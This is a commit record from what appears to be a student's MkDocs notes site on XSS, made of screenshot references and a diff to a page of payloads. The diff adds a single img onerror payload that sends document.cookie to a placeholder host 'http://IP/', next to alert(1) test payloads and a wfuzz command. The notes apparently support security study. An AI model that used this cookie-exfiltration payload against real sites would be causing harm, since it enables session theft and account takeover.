

Before and after one commit to GaelleBriet/web200-notes, an MkDocs documentation site: the page built from docs/vulns/14-xss.md, in a window 1280 px wide and 900 px high, scrolled down 1388 px. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Update 14-xss.md

````diff
--- a/docs/vulns/14-xss.md
+++ b/docs/vulns/14-xss.md
@@ -63,6 +63,7 @@ wfuzz -c -z file,/usr/share/seclists/Fuzzing/XSS/human-friendly/XSS-BruteLogic.t
 <body onload=alert(1)>
 <svg onload=alert(1)>
 <iframe src="javascript:alert(1)">
+<img src=x onerror="document.location='http://IP/?c='+document.cookie">
 ```
 
 ### 3.2 Attribut HTML (entre guillemets)
````
